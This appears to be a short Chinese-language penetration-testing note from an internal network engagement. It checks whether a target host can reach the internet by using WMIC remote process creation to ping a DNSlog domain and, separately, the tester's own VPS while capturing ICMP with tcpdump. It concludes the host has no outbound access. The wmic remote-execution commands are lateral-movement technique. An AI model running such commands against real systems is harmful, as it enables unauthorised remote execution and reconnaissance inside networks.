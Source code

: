 1.通过DNSlog （http://www.dnslog.cn/）

```
shell wmic /node:192.168.10.10 process call create "cmd.exe /c ping g2azxa.dnslog.cn"
```

![img](D:\AD\note\images\beepress-image-171523-1639619963.png)

2.通过tcpdump

```
tcpdump -i 网卡名 icmp

shell wmic /node:192.168.10.10 process call create "cmd.exe /c ping VPSip"
```

![img](D:\AD\note\images\beepress-image-171523-16396199631.png)

两种方法都没有回显，192.168.10.10不出网。